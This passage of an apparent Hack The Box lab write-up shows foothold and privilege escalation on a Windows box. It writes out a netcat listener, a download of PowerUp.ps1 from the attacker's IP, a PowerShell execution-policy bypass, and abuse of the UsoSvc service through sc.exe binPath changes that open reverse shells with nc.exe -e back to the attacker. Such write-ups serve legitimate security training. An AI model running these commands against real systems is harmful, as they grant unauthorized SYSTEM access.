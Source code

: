 Next we set up our local `netcat` listener.

Command:
`nc -lvnp 4242`

Now we launch the exploit!

![](/images/2020/04/remoteshell.gif)

We get a shell back as the service! We start to look around and see there is only one real account, Administrator. We see the `user.txt` file in the Public directory. Nice, one flag down! 

Now that we have a foothold, we'll download `winPEAS` or `PowerUp.ps1` from our tools and start some internal enumeration. For some reason my `winPEAS` was not returning a potential vector I could see manually, so we'll use `PowerUp.ps1`, which did show it.

Command:
`wget 10.10.14.41/PowerUp.ps1 -outfile ./PowerUp.ps1`

Next we'll start our `PowerShell` session with `ExecutionPolicy` set to bypass.

Command:
`Powershell -ep bypass`

Now we'll import PowerUp.ps1

Command:
`import-module PowerUp.ps1`

And start some checks.

Command:
`invoke-allchecks`

![](/images/2020/04/remotesvc.gif)

We see that `UsoSvc` is capable of being exploited, just like in previous boxes! Check out [PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md) to see how we leverage this.

So now we can abuse this service in conjunction with our previous `netcat` binary we uploaded to gain system. PowerUp even has a built in function for this: `Invoke-ServiceAbuse`.

First we'll need to start a local `netcat` listener again, this time on a new port.

Command:
`nc -lvnp 6969`

Now we can use the abuse function.

Command:
`invoke-serviceabuse -Name 'UsoSvc' -command 'C:\rfio\nc.exe -e cmd.exe 10.10.14.41 6969`

We can also do it the manual way.

Commands:
`sc.exe config usosvc binPath="C:\rfio\nc.exe 10.10.14.41 7777 -e powershell.exe"`
`sc.exe stop usosvc`
`sc.exe start usosvc`

![](/images/2020/04/remoteroot.gif)

We now have a shell as System! We head over to the Administrator Desktop and grab our flag!

Think about sending me some respect over on HTB if you enjoyed the write-up! Here's my [profile](https://www.hackthebox.eu/home/users/profile/95635).



